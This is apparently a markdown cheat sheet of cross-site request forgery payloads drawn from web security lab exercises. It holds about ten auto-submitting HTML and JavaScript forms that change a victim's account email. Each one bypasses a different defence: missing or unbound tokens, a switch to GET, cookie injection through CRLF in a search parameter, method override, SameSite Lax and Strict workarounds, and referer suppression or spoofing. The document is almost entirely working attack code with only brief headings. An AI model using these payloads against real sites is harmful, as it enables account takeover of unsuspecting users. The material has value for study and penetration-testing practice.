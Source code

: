 CSRF TOKEN NOT TIED TO SINGLE SESSION COOKIE
```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@gothacked">
            <input required type="hidden" name="csrf" value="CSRF">
            <button type="submit">Update Email</button>
        </form>
        <script>document.forms[0].submit()</script>
    </body>
</html>
```

CSRF TOKEN IS VALIDATED ONLY IF PRESENT, IF OMITTED THERE IS NO CONTROL
```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
        <input required type="email" name="email" value="victim@yougothacked">
        <button type="submit">Update email</button>
    <script>document.forms[0].submit()</script>
    </body>
</html>
```

CSRF TOKEN CONTROL IS IMPLEMENTED ONLY ON POST REQUEST, SWITCHING TO GET METHOD AND STRIPPING THE CSRF PARAMETER FROM THE URL DOES BYPASS THE CONTROL
```html
<html>
    <body>
        <img src="URL/my-account/change-email?email=victim%40gothacked" onerror=alert(1)>
    </body>
</html>
```

CSRF TOKEN CONTROL DUPLICATED IN A COOKIE AND SOME USER INPUT IS REFLECTED IN THE SET-COOKIE HEADER
```html
<html>
    <body>
        <img src="URL/?search=test%0D%0ASet-Cookie%3A%20csrf%3Dfakecsrf%3B%20SameSite%3DNone" onerror=document.forms[0].submit()>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@yougothacked">
            <input required type="hidden" name="csrf" value="fakecsrf">
            <button type="submit">Update Email</button>
        </form>
    </body>
</html>
```


BYPASS SAME-SITE=LAX (NO CSRF TOKEN PRESENT) USING METHOD OVERRIDE
```html
<html>
    <body>
        <form action="https://URL/my-account/change-email" method="POST">
            <input type="hidden" name="httpMethod" value="GET">
            <input required type="email" name="email" value="yougot@hacked">
            <button type="submit">Submit</button>
        </form>
        <script>document.forms[0].submit()</script>
    </body>
</html>
```
Source: [sidechannel.blog](https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/)  

PORTSWIGGER VERSION
```html
<script>
    document.location="URL/my-account/change-email?email=youjustgot%40hacked&_method=POST"
</script>
```

BYPASS SAME-SITE=STRICT USING ON-SITE GADGETS (DOM OPEN-REDIRECT VULNERABLE OBJECTS)

```html
<script>
    document.location = "URL/post/comment/confirmation?postId=1/../../my-account/change-email?email=yougot%40hacked%26submit=1"
</script>
```

BYPASS SAME-SITE=LAX WITH NEWLY ISSUED COOKIES (120 SECONDS PERIOD OF GRACE FOR POSTS REQUEST) (csrf-lab09)

```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="youjustgot@hacked">
            <button type="submit">Submit</button>
        </form>

        <script>
            window.onclick= () => {
            window.open('https://0a3c000904d7333a802d94de00580052.web-security-academy.net/social-login');
            setTimeout(function(){
                document.forms[0].submit()
            }, 5000)
            }
        </script>
    </body>
</html>
```

BYPASS CSRF CONTROL BASED ON REFERER HEADER (IF NOT PRESENTE, THE ENTIRE CONTROL IS NOT PERFORMED)

```html
<html>
    <head>
        <meta name="referrer" content="never">
    </head>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="youjustgot@hacked">
            <button type="submit">Submit</button>
        </form>
        <script>
            document.forms[0].submit()
        </script>
    </body>
</html>
```

```<meta name="referrer" content="never">```: referer header is not sent along the request


BYPASS CSRF CONTROL BASED ON REFERER HEADER

```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="yougot@hacked">
            <button type="submit">Submit</button>
        </form>
    </body>
    <script>
        history.pushState("", "", "/?URL");
        document.forms[0].submit()
    </script>
</html>
```